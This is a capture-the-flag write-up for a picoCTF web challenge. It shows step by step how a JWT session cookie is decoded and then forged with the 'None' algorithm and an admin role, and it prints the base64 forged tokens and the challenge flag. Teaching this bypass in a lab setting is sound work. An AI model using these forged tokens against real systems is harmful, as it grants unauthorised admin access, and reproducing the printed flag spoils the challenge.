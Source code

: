 # JAuth
Author: dch0017

## Challenge Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
VerticalScope (internet media company) - outdated version of vBulletin forum software used
Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?
You can login as test with the password Test123! to get started.

## Website
Let's pull up the site and here is what we get:</br>
![website](./website.png)
</br>

Plain log in page, inspect the source html and nothing immediately sticks out. Let's go ahead and try to log in using the provided credentials.</br>
![logged in](./loggedin.png)
</br>

## Check the traffic
Nothing special here either, we are on a new subdirectory ```/private``` but I don't see any thing sticking out to me. Let's open up burpsuite and let's see what actually happens when we log in.

We see two requests, a POST request to ```/auth``` which supplies our username and password, and in turn we get a cookie back. The cookie is then supplied in a GET request to ```/private``` to bring us to the page above.

## Cookie Time
Let's see what that cookie is:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjc0MjI1NzY4NDc3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDkuMC41NDE0Ljc1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoidXNlciIsImlhdCI6MTY3NDIyNTc2OH0.zcPLxtC2W8qzN5Y_fjLt_q_N6xzVP2R7eVZjvve7_v0
```

Let's decode that and see what we get, I used [jwt.io](https://jwt.io) for this.</br>
![decoded cookie](./decoded_cookie.png)
</br>

## Slight modifications
A good article on JWT vulnerabilities is here on [Invicti](https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/).

Right off the bat, I want to go ahead and try to change that ```role``` portion of the from ```user``` to ```admin``` and see what I get.

Here is my new cookie:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjc0MjI1NzY4NDc3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDkuMC41NDE0Ljc1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2NzQyMjU3Njh9.gXYa8s-eRqOMLmJgQvT7SovirmOi6q3SZ6TLu5V-VZQ
```

and when I plug that into burpsuite and pass that along I get....</br>
![authentication failed](./authfailed.png)
</br>

## None Algorithm
Changing the ```alg``` key from HS256 to ```None``` totally skips the signature checking (if the application accepts that.) I doubt you would find this too often in the wild, but it doesn't hurt to try.

We can generate that fairly quickly using our console and the ```base64``` command but I just did it on [cyber chef](https://gchq.github.io/CyberChef/)

## Chef in the Kitchen
Put our ```header``` on the input side
```
{
  "typ": "JWT",
  "alg": "None"
}
```
Which gives us
```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIk5vbmUiCn0=
```

Then we put our ```payload``` on the input side.
```
{
  "auth": 1674229308461,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36",
  "role": "admin",
  "iat": 1674229308
}
```

Which gives us
```
ewogICJhdXRoIjogMTY3NDIyOTMwODQ2MSwKICAiYWdlbnQiOiAiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEwOS4wLjU0MTQuNzUgU2FmYXJpLzUzNy4zNiIsCiAgInJvbGUiOiAiYWRtaW4iLAogICJpYXQiOiAxNjc0MjI5MzA4Cn0=
```

## Getting the forged JWT
Now let's combine those together, and drop the ```=``` and replace with a ```.```. So our forged JWT would end up looking like:
```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIk5vbmUiCn0.ewogICJhdXRoIjogMTY3NDIyOTMwODQ2MSwKICAiYWdlbnQiOiAiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEwOS4wLjU0MTQuNzUgU2FmYXJpLzUzNy4zNiIsCiAgInJvbGUiOiAiYWRtaW4iLAogICJpYXQiOiAxNjc0MjI5MzA4Cn0.
```

## Success
Finally we are greeted with a success page and our token. </br>
![success](./success.png)
</br>

## Flag
```
picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}
```